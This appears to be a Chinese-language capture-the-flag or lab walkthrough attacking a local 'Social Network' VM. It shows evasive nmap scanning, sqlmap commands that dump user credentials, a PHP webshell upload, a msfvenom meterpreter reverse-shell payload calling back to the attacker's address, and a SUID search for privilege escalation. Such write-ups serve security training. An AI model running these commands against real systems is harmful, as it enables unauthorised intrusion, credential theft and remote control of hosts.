






>nmap --spoof-mac FF:FF:FF:FF:FF:FF --data-length 24 -T1 -f --mtu 16 -D RND -sS -sV -p 1-65535 -n -oA /root

```

┌──(root💀kali)-[/home/soyamilk/桌面/tools/frp]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:5a:99:73, IPv4: 192.168.159.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.159.2   00:50:56:fb:34:d2       VMware, Inc.
192.168.159.1   00:50:56:c0:00:08       VMware, Inc.
192.168.159.137 00:0c:29:44:e7:f6       VMware, Inc.
192.168.159.254 00:50:56:ef:44:30       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.988 seconds (128.77 hosts/sec). 4 responded
                                                                                                                                              
┌──(root💀kali)-[/home/soyamilk/桌面/tools/frp]
└─# nmap -T4 -p- 192.168.159.137
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-06 17:07 CST
Nmap scan report for 192.168.159.137
Host is up (0.0011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt
MAC Address: 00:0C:29:44:E7:F6 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 9.59 seconds
                                                                                                                                              
┌──(root💀kali)-[/home/soyamilk/桌面/tools/frp]
└─# nmap -T4 -p22,80,8000 -sV 192.168.159.137
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-06 17:07 CST
Nmap scan report for 192.168.159.137
Host is up (0.00045s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    BaseHTTPServer 0.3 (Python 2.7.15rc1)
MAC Address: 00:0C:29:44:E7:F6 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.56 seconds
                                                                                                                                              
┌──(root💀kali)-[/home/soyamilk/桌面]
└─# nmap -T4 -p22,80,8000 -A 192.168.159.137                                                                                            130 ⨯
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-21 16:22 CST
Nmap scan report for 192.168.159.137
Host is up (0.00051s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:d3:4e:54:fe:66:3e:f3:b2:a5:4b:51:9f:5f:f9:c6 (RSA)
|   256 de:86:ef:76:93:63:74:83:00:b1:a3:b8:c2:4c:8f:58 (ECDSA)
|_  256 b5:ec:f1:1e:9a:5a:5c:d7:02:3a:9e:1b:f7:c8:b4:53 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Social Network
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    BaseHTTPServer 0.3 (Python 2.7.15rc1)
|_http-server-header: BaseHTTP/0.3 Python/2.7.15rc1
MAC Address: 00:0C:29:44:E7:F6 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.51 ms 192.168.159.137

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.89 seconds


```

访问80，有登录框，考虑sql注入，注册一个号，登录进去，是php搭建的网站，扫一下后台，综合一下，用xray爬一下顺便扫一下sql注入

先登陆一下配置一下xray的Cookie，通过修改xray的配置文件config.yaml添加请求头Cookie

```
xray_windows_amd64.exe webscan --basic-crawler http://192.168.159.137/home.php --html-output b.html

xray_windows_amd64.exe webscan --browser-crawler http://192.168.159.
137/home.php --html-output a.html
```



sqlmap跑一下

```
sqlmap.py -r url.txt --level 5 --risk 3 --threads 5 --dbs --tables --columns --dump --random-agent --tamper=between --flush-session --randomize=1

python sqlmap.py -r url.txt -D socialnetwork -T users --dump
```

跑出来账号密码，登陆一下



登陆成功，分析页面

```
http://192.168.159.137/profile.php
可以上传头像

http://192.168.159.137/home.php
可以上传图片，发表文字
```

用dirsearch扫一下后台，带上管理员的cookie





在图片上传位置，可上传php马



搞一个msf的马`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.159.128 LPORT=23333 -a x86 --platform Linux -f elf > shell.elf`

连上之后查看权限是www-data，查看suid能否提权

```
find / -perm -u=s -type f 2>/dev/null
```


